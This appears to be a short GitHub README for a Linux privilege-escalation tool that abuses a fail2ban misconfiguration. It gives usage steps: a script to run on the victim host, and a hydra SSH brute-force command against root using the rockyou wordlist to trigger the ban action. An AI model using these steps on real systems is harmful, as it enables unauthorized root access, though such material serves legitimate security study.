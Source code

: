 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So some misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/img.png)

# Usage
@victim
```
python3 fail2ban.py
```


@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlist/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

